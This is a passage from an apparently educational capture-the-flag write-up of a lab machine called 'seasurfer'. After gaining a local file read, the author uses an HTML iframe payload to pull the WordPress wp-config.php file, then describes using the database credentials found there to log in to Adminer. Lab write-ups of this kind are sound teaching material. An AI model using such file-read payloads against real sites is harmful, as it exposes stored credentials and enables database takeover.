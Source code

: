 ### Credentials
> What files could have database credentials?
{: .prompt-tip }

Now that we have a working local file read, what local
file should we read?

Recall that this site is running `wordpress`, so let's
try to read the equivalent config file `wp-config.php`

```html
<iframe src=http://10.13.51.71/read.php?x=/var/www/wordpress/wp-config.php width=1000px height=1000px></iframe>
```

![wordpress config](/images/seasurf/wordpress-config.png)

We have database credentials! We also found the `/adminer`
directory on `seasurfer.thm` which will let us read
a database, so let's put this all together

![adminer](/images/seasurf/adminer-login.png)
